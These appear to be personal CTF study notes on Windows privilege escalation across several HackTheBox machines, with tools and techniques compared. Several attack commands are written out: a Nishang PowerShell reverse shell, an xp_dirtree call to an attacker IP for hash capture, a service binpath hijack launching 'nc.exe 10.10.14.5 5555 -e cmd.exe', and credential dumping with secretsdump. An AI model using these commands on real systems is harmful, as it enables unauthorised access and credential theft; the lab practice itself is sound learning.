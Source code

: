 #Windows #PrivEsc 

CTF Boxes:
1. [[Arctic - HTB]]
	- TCM used #CVE-2009-2265
2. [[Bastard - HTB]]
	- [Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)
	- TCM created a msfvenom payload for popping a user shell instead of doing nc like I did
	- TCM used #Sherlock(Sherlock.ps1) for PrivEsc and #MS16-014 (kernel exploit from THM lab)
		- PrivEsc #MS15-051
		- I just did #JuicyPotato and rooted it...
3. [[Netmon - HTB]]
	- The Alfred THM box substituted for [[Netmon - HTB]] and [[Access - HTB]]
		- web portal enumeration
		- `admin:admin` logs in as default
		- In configure tab, can run windows batch command, get revshell
			- #Invoke-PowerShellTCP Invoke-PowerShellTCP.ps1 #Nishang Nishang!
				- `Invoke-PowerShellTCP -Reverse -IPAddress <ip> -Port <port>`
				- catch with `nc`
		- TCM used MSF handler and transferred a msfvenom payload,
			- Impersonated with incognito by migrating to process running as `NT AUTHORITY/SYSTEM` since MSF `getshell` was not working
				- can do #JuicyPotato though like from Jeeves without MSF
4. [[Bastion - HTB]]
	- [Mounting VHD Files](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)
	- Different mounting steps, I downloaded #vhd then mounted, TCM created share drive with share and mounted from there (quicker and didn't download)
	- Also used #secretsdump to find password hash
		- TCM grabbed `SYSTEM` and `SECURITY` files as well from `C:\Windows\System32\config` and added that to secretsdump
			- This resulted in LSA dump with cleartext
5. [[Querier - HTB]]
	- [Capturing MSSQL Credentials](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
	- TCM used #binwalk , should use with #olevba next time
	        - `binwalk -e <file>`
	        - `cd <folder extracted>`
	        - `cat vbaProject.bin`
	- TCM used #smbserver instead of #Responder (did this because the `reporting` account could not run `xp_cmdshell` so we caught a hash as the service account and it can run that)
		- #xp_dirtree allows passing of commands to SMB shares
			- In the SQL Server instance, execute the xp_dirtree stored procedure, passing a UNC path to the SMB share as an argument. For example: `EXEC MASTER.sys.xp_dirtree '\\<attacker_IP>\any\thing', 1, 1`
	- TCM #PowerUp found binary path vulnerability with `UsoSvc`... my #PowerUp showed cleartext password in GPP
		- TCM changed the #binpath config for `USoSvc`
			- `sc config UsoSvc binpath="C:\Reports\nc.exe 10.10.14.5 5555 -e cmd.exe"`
			- `sc qc UsoSvc
			- `sc stop UsoSvc`
			- `nc -lnvp 5555`


